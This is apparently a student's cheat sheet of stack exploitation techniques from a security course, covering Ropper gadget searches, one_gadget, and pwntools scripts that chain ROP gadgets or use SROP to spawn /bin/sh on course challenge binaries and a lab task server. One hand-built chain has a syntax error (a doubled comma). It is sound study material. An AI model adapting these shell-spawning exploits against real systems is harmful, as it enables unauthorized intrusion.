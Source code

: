 # Stack

### Objdump explore elf if small ASM program given (instead of IDA)
- dump binary with:
```
objdump -M intel -d ./my_binary
objdump -M intel -D ./vuln
```

### Ropper (find gadgets):
- https://github.com/sashs/Ropper
- install ropper
```
sudo pip install capstone
sudo pip install filebytes
sudo pip install keystone-engine
pip install ropper
```
- find gadgets
```
ropper --all --file ./vuln
ropper --file ./vuln --search syscall
ropper --file ./vuln --inst-count 2 --type rop
ropper --file ./vuln --search "mov rdi, e?x" --inst-count 2 --type rop

ropper --file ./vuln --search "pop rdi; ret;" 

ropper --file ./vuln --semantic "rdi+=rax"
```
- find all gadgets interactively
```
ropper
file vuln
```
- exclude stuff
```
badbytes 0a
```
- find specific ones
```
search /1/ pop rdi
```
- find gadgets with ropper
```
search pop %; mov rdi, [rsp + %]; mov rax, [rsp + %];
```

### find the ONEGADGET
- if we jump to this gadget and fullfill the constraints, then we get shell directly
```
sudo gem install one_gadget
```
```
one_gadget ./libc.so.6
```


### build ropchain by hand
```python
import pwn
pwn.context.arch = 'amd64'
port = 1227
conn = pwn.remote('tasks.ws24.softsec.rub.de', port)

libc = pwn.ELF("./libc.so.6")

# set base address of libc, sothat later we get correct address directly (else we jsut get offset in libc)
libc.address = 0 # leak me somehow

offset_gets = libc.symbols['gets']
offset_system = libc.symbols['system']
offset_shell_string = next(libc.search(b'/bin/sh\x00'))


address_g01 = 0x0000000000403f62 # pop rdx; ret;
address_g02 = 0x000000000040d6c7 # lea rcx, [rdx + 0x558]; sub rax, rcx; sar rax, 2; ret;
address_g15 = 0x0000000000401010 # call rax;
address_fil = 0x00000000004011df # nop; ret;

rop_chain = [
    b'A'*24,
    pwn.p64(address_g01),
    pwn.p64(address_g02),
    b'A'*8,,
    pwn.p64(address_fil),
    pwn.p64(address_g15)
]

rop_chain = b''.join(gadget for gadget in rop_chain)

print(rop_chain.hex())
conn.sendline(rop_chain)
```


### build ropchain automatically
```python
import pwn
pwn.context.arch = 'amd64'
port = 1227
conn = pwn.remote('tasks.ws24.softsec.rub.de', port)

libc = pwn.ELF("./libc.so.6")

libc.address = 0 # leak me
rop = pwn.ROP(libc)
rop.call(rop.ret) # this is needed for aligned sothat syscall is 16 byte aligned
# call system, so jump to this address and set parameter beforehand
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

payload = b'A'*(0x28) + rop.chain()
conn.sendline(payload)
```


### Trick: If PIE disabled, we can write in well-known .bss (uninitialized global writable data) (14_boromir) (or .data)
```python
import pwn
pwn.context.arch = 'amd64'

exe = pwn.ELF("./vuln_patched")
libc = pwn.ELF("./libc.so.6")

conn = pwn.remote('tasks.ws24.softsec.rub.de', 33586)

# one_gadget ./libc.so.6
"""
0xd509f execve("/bin/sh", rbp-0x40, r13)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
"""
one_gadget_offset = 0xd509f

message = conn.recvline()
printf_address = int(message[-13:-1],16)
libc_base = printf_address - libc.symbols['printf']
one_gadget = libc_base + one_gadget_offset

# we have no pie => bss is writable and at a fixed position
rbp = exe.bss(0x40)
payload = b'A'*32 + pwn.p64(rbp) + pwn.p64(one_gadget)

conn.send(payload)
conn.interactive()
```


### Sigreturn oriented programming (16 SROP)
- abuse SIGRETURN sycall, which reads stuff from the stack and puts it into the registers
- pwntools does all the heavly lifting for us:
```python
import pwn

# this is required on gnome to start gdb
pwn.context.terminal = ['gnome-terminal', '--']

# pwninit
exe = pwn.ELF("./vuln")

pwn.context.arch = 'amd64'
#pwn.context.binary = exe

port = 1024
#conn = pwn.remote('tasks.ws24.softsec.rub.de', port)
conn = pwn.process([exe.path])

pwn.gdb.attach(conn, gdbscript="""
set detach-on-fork off
set follow-fork-mode child
""")

pwn.pause()

# we have a 200 byte buffer but can read 0x200 = 512 bytes
# simple rop chain by hand using gadgets (not many)
# we can use 

# ropper --all --file ./vuln
"""
    mov rax, 59;
    lea rdi, [rip + sh];
    mov rsi, 0;
    mov rdx, 0;
    syscall;
    ret;
sh:
    .string "/bin/sh"
"""

bin_sh_pointer = next(exe.search(b'/bin/sh\x00'))
print(hex(bin_sh_pointer))

gadget_pop_rax = 0x00000000004010b3#: pop rax; ret;
gadget_syscall = 0x0000000000401010#: syscall;

# first we execute the syscall "SIGRETURN" (15) to setup the 4 register, then we just return to syscall again to get a shell :)
frame = pwn.SigreturnFrame()
frame.rax = 59
frame.rdi = bin_sh_pointer
frame.rsi = 0
frame.rdx = 0
frame.rip = gadget_syscall

# do the sigreturn syscall (15) (https://syscalls.mebeim.net/?table=x86/64/x64/latest)
rop_chain = [
    pwn.p64(gadget_pop_rax),
    pwn.p64(15),
    pwn.p64(gadget_syscall),
    bytes(frame)
]

payload = b'A' * 208 + b''.join(gadget for gadget in rop_chain)

conn.sendline(payload)

conn.interactive()
```


### Shadow stack (18 magic8ball)
- we cannot return as this is checked, so just use call


